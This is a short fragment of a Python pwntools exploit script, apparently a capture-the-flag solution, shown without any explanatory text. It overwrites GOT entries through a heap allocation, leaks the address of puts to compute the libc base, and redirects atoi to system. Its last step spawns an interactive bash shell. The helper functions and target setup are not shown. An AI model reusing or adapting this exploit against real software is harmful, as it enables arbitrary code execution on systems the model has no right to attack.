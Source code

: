 ```py
alloc(0x60, 'A' * 0x13 + p64(binary.got['free']) + p64(binary.got['puts']) + p64(binary.got['atoi']))
edit(0, p64(binary.plt['puts']))
free(1)
temp = p.recvrepeat(1).split('\n')[1][:-1].ljust(8, '\x00')
log.info("Leaked address string for puts: " + temp)
putsAddress =  u64(temp)
log.info("Leaked puts: " + hex(putsAddress))
libcBase = putsAddress - libc.symbols['puts']
log.info("Leaked libc base: " + hex(libcBase))
systemAddress = libcBase + libc.symbols['system']
edit(2, p64(systemAddress))
p.recvrepeat(1)
log.info("Creating a shell")
p.sendline('bash')
p.interactive()
```
